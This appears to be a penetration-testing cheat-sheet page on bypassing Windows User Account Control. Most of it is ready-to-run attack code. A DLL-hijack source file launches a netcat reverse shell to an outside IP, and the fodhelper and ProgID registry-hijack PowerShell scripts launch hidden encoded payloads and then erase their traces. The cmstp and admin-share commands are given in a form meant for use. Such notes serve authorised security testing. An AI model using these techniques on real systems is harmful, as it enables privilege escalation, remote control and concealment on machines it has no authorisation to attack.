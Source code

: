 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)
* [https://youtu.be/krC5j1Ab44I?t=3570](https://youtu.be/krC5j1Ab44I?t=3570)

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## fodhelper

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Cleanup:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijecking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
	
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
	
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

The same thing with **ProgID** [abuse](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses):

{% code title="fod-ng.ps1" %}
```powershell
function FodNG {
    Param (
        [String]$cmd = "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_CMD>"
    )
	
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue

    New-Item "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Force
	New-ItemProperty -Path "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".snovvcrash" -Force
	
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.snovvcrash\" -Recurse -Force
}
```
{% endcode %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
